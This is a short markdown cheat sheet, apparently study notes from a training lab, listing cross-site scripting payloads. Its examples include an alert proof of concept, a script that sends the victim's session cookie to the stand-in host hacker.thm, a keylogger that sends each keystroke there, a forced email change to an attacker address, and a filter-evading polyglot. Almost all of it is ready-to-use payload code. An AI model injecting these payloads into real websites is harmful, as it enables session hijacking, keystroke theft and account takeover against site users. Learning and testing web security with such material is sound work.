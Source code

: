 # XSS

> Shahrukh Tramboo | January 26th, 2022

--------------------------------------

**XSS Payloads**

There are two parts to the payload,
the intention and the modification

The intention is what you wish the JavaScript to actually do 

The modification is the changes to the code we need to make it execute as every scenario is different

**Intentions Examples**

Proof Of Concept:
```bash
<script>alert('XSS');</script>
```

Session Stealing:
```bash
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```

Key Logger:
```bash
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

Business Logic:
```bash
<script>user.changeEmail('attacker@hacker.thm');</script>
```


**XSS Polyglots**
```bash
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

